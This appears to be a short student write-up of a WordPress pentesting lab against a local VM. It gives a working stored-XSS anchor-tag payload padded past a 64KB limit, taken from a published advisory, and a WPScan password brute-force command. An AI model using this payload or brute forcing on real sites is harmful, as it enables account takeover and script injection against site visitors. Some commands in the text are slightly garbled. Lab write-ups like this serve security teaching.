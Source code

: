 <h1> Wordpress Pentesting </h1>

<h3> Time: approx 14 hours </h3>

<h3> 1. Stored XSS </h3>
Discovered by Jouko Pynnönen of Klikki Oy  <a href=url>https://klikki.fi/adv/wordpress2.html</a> This site was used as a resource. I injected the anchor tag below into the a post. 
      
   <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px [64 kilobytes of Letters]’> </a>

  You need 64 kilobytes of letters due to the MYSQL text size limit being 64KB so I made that with this python command. <br>
      <strong> python -c 'print ("A"*65600)' > payload.txt </strong> <br>
  In vim you can open up payload.txt and use ":%+" to copy the entire file and then paste it where the letters go in the anchor tag payload.
      This script will be triggered when the comment is viewed.
      
 
   <h2> 2. Brute Force Login with WPScan and wordlist </h2>
      
      WPScan can ennumerate users and generate passwords if you use a wordlist.
      -use command: wpscan --url wpdistillery.vm -passwords passwords.txt
     

